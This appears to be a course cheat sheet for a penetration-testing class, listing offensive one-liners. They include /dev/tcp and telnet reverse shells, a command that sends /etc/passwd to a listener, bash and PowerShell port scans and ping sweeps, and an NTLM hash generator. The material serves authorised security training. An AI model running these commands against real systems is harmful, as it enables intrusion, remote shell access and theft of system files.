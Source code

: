 # Resources referenced during SEC560 classes


## Day 2

### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



#### Powershell
Ping sweep:
PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:
  21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:
  python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'





## Credits
Ed Skoudis, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
